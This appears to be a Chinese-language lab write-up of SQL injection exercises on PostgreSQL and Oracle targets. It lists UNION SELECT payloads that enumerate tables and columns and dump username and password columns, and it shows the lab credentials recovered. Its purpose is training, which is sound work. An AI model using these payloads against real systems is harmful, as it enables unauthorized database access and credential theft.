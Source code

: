 ' union select 'a',column_name from information_schema.columns where table_name='pg_user'--+

用burpsuite的intruder模块批量查表

得到可能得表pg_roles

=>pg_roles:rolname,rolpassword

错了，数据库搞错了

搜表的时候就不该指定数据库，直接搜所有

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

users_lzuqsm

```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_lzuqsm'--
```

username_hpqlna

password_wwanrb

```
'+UNION+SELECT+username_hpqlna,+password_wwanrb+FROM+users_lzuqsm--
```

| username      | password             |
| ------------- | -------------------- |
| wiener        | u0djyjuuupomqcyi17qn |
| administrator | hpryjdd0jnp1if96pb8h |

## SQL injection attack, listing the database contents on Oracle

```
' union select table_name,null from all_tables--+
```

表名：USERS_LMQRSC

```
' union select column_name,null from all_tab_columns where table_name='USERS_LMQRSC'--+
```

列名：PASSWORD_TZEGWA	USERNAME_GWTBKN

```
' union select USERNAME_GWTBKN,PASSWORD_TZEGWA from USERS_LMQRSC--+
```

| 用户名        | 密码                 |
| ------------- | -------------------- |
| administrator | p1dqqm7fsg5c3pd9rds8 |

all_tables为存表名的表
